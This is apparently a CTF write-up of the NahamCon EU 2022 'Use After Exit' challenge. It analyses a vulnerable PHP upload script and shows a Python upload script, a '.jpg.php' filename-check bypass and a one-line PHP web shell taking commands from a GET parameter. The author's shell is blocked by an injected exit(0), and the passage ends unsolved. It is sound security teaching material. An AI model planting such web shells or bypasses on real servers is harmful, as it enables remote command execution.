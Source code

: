 # Use After Exit

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★★

- Challenge difficulty: Medium

## Background

Author: @carlopolop#3938  

**It's as easy as it looks, isn't it?**  
  
**Press the `Start` button on the top-right to begin this challenge.**  

**Connect with:**  

- [http://challenge.nahamcon.com:30714](http://challenge.nahamcon.com:30714)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216233446.png)

## Find The Flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221216233505.png)

**Hmm... Let's break down that PHP code:**
```php
<?php
error_reporting(0);
if (isset($_POST['submit'])) {
    $file_name = urldecode($_FILES['file']['name']);
    $tmp_path = $_FILES['file']['tmp_name'];
    if(strpos($file_name, ".jpg") == false){
        echo "Invalid file name";
        exit(1);
    }
    $content = file_get_contents($tmp_path);
    $all_content = '<?php exit(0);'. $content . '?>';
    $handle = fopen($file_name, "w");
    fwrite($handle, $all_content);
    fclose($handle);
    echo "Done.";
}
else{
    show_source(__FILE__);
}
?> 
```

- `error_reporting(0);`, means turn off all error reporting
- If POST request parameter `submit` is set, do:
	- `file_name` =  URL decode the file name
	- `tmp_path` = The full path of temporary file of the uploaded file
	- **If the `file_name` does NOT contain `.jpg`, then echos out `Invalid file name` and exit with an error code**
	- `content` = The content of the uploaded file
	- **`all_content` = Add `<?php exit(0);` + `content` + `?>`**
	- `handle` = Open `file_name` in `write` mode
	- **Then write `all_content` in the `handle`, close the file handler, and echos out `Done.`**
- If POST parameter `submit` is NOT set,
	- Show the source code of the current PHP file

**Armed with above information, we can try to upload a file `submit` via a python script:**
```py
#!/usr/bin/python3

import requests

url = 'http://challenge.nahamcon.com:30714/'

data = {
	'submit': 'submit'
}

file = {
	'file': open('./FILE_HERE', 'rb')
}

print(requests.post(url, data=data, files=file).text)
```

**Let's try to upload a normal image jpg file:**
```py
file = {
	'file': open('./test.jpg', 'rb')
}
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# python3 exploit.py
Done.
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221217002243.png)

**However, we can't view that image, as the PHP code adds the `exit(0);` in the uploaded file, thus the image is broken:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# wget http://challenge.nahamcon.com:30714/test.jpg

┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# head -n 1 test.jpg.1
<?php exit(0);����JFIF��C
```

**We can try to upload a PHP web shell with `.jpg.php` extension:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# echo '<?php system($_GET["cmd"]); ?>' > webshell.jpg.php
```

This can bypass the `.jpg` whitelist, as it only checks the file name **contains** `.jpg` or not.

```py
file = {
	'file': open('./webshell.jpg.php', 'rb')
}
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# python3 exploit.py
Done.
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-EU-CTF-2022/images/Pasted%20image%2020221217005320.png)

Ah! The PHP code is adding `<?php exit(0);` and `?>` to our file.

**Let's update our web shell again:**
```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# echo 'system($_GET["cmd"]);' > webshell.jpg.php
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# python3 exploit.py                                       
Done.
```

```
┌──(root🌸siunam)-[~/ctf/NahamCon-EU-CTF-2022/Web/Use-After-Exit]
└─# curl http://challenge.nahamcon.com:31792/webshell.jpg.php --get --data-urlencode "cmd=id"
                                                                                        
```

**However, we didn't have any output, as the `exit(0);` is getting executed first, which causes the web shell do nothing!**

> Note: `exit()` is a function that stops execution for the entire script.

How do we bypass that...

Race condition?

Multiple PHP opening & closing tags, like this?

```php
<?php exit(0);
?><?php echo 'test';
?>
```

Override the `index.php` file via `fopen()` write mode?

Maybe I need to do path traversal?

Or maybe SSRF(Server-Side Request Forgery) via file name, and then read local files or access local services?

Also, this PHP code is weird to me, why it's doing URL decode?

```php
$file_name = urldecode($_FILES['file']['name']);
```

After digging deeper in those rabbit holes, still no dice...